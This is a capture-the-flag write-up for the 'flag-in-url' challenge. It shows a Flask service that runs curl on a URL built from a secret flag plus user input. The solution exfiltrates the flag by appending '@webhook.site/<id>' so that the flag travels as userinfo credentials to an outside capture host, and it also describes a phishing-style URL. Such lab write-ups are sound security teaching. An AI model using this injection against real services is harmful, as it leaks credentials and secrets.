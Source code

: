 # flag-in-url

i collaborated with puzzler7 to make this one (he made it into a web service, i had the idea)

## problem

A twist on a challenge we've done many times before.

```py
#!/usr/bin/env python3

from subprocess import run

from flask import Flask, request, Response, redirect
from flask_limiter import Limiter
from flask_limiter.util import get_remote_address
app = Flask(__name__)
limiter = Limiter(
    get_remote_address,
    app=app,
    default_limits=["50000 per hour"],
    storage_uri="memory://",
)

@app.route('/', methods=["GET"])
@limiter.limit("5/second")
def index():
    if "source" in request.args:
        return Response(open(__file__).read(), mimetype='text/plain')
    return open("index.html").read()

@app.route('/curl', methods=["POST"])
@limiter.limit("5/second")
def curl():
    url = request.form['url']
    flag = open("flag.txt").read().replace("{", "_").replace("}", "_")
    proc = run(['curl', f"https://{flag}{url}"], capture_output=True)
    if len(proc.stdout):
        return Response(proc.stdout.decode(), mimetype='text/html')
    else:
        return "Curl error."

if __name__ == "__main__":
    app.run('0.0.0.0', 14000)
```

## solution

one thing that most people don't know is that URLs support authentication

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/20d97862-f1da-4881-bf06-3ef753955357)

note the "userinfo" are credentials and stuff

we can exploit this by putting `@webhook.site/<webhook-site-url>`

one thing to note is that this is a common phishing attack as old as urls themselves (e.g. `https://google.com@malicious.site/` brings you to malicious.site)

additionally, these credentials are part of the URL, so they are not protected by SSL/TLS as they travel the internet through the HTTPS protocol

because of this, one of the common browser protections is to not send the user credentials until a 401 (or maybe it was 403?) error, or to just not allow the userinfo in the URL at all.

however, curl does always send the userinfo / basic authorization information

we can intercept it and it will end up like so on webhook.site:

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/305bc9ad-a31c-4bc8-a645-c717fc1dda18)

the flag is `ictf{authentication_saves_the_day}`
